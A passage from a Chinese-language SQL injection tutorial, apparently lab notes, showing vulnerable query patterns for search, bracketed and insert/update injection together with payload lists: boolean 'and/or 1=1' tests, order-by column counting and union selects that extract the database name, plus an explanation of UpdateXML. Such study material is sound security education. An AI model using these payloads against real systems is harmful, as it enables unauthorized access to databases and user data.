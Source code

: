 #### 1.1.4. 搜索型注入

搜索语句：

```sql
select username,id,email from member where username like '%1%’ and 1=1 and '%'='%'
```

payload：

```sql
'
xxx%' and 1=1 and '%'='
xxx%' and 1=1 #
'
xxx%' or 1=1 #
'
xxx%' and 1=1 order by 13 #
'
x%' union select 1,2,database() #获取数据库名
```

#### 1.1.5. xx 型注入

查询语句：

```sql
select id,email from member where username=('$name')
```

payload：

```sql
'
lili') and 1=1 #
'
lili') or 1=1 #
'
lili') and 1=1 order by 2 #
'
lili') union select 1,database() #
```

#### 1.1.6. "insert/update"注入

查询语句：

```sql
insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')
```

相关函数：

```sql
UpdateXML(xml_target,xpath_expr,new_xml)

#此函数将xml_target中用xpath_expr路径匹配到XML片段用new_xml替换，然后返回更改后的XML。
#xml_target被替换的部分与xpath_expr用户提供的XPath表达式匹配。
#如果找不到表达式匹配 xpath_expr项，或者找到多个匹配项，则该函数返回原始 xml_targetXML片段。
#所有三个参数都应为字符串。
```
